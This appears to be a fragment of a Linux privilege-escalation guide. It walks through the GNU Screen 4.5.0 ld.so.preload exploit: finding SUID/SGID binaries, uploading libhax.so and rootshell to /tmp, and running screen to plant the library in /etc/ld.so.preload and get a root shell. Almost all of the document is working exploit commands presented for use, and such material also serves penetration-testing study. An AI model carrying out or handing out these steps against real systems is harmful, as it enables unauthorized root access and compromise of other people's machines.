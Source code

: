 ```bash
find / -perm -4000 -o -perm -2000 -type f 2>/dev/null
```
![image](https://github.com/Grizzy529/Linux-PrivEsc/assets/102862377/ab99952d-a793-47a9-889f-b0cc5152ad2c)

1. Upload `libhax.so` and `rootshell` to target machine in `/tmp` directory
2. Also change the permission of both the file to executable
```
chmod +x rootshell
chmod +x libhax
```
4. Run Below Commands
```bash
cd /etc
umask 000
screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
/tmp/rootshell
id
```
![image](https://github.com/Grizzy529/Linux-PrivEsc/assets/102862377/7cad8e25-8076-4a96-9a7e-88499f9df884)
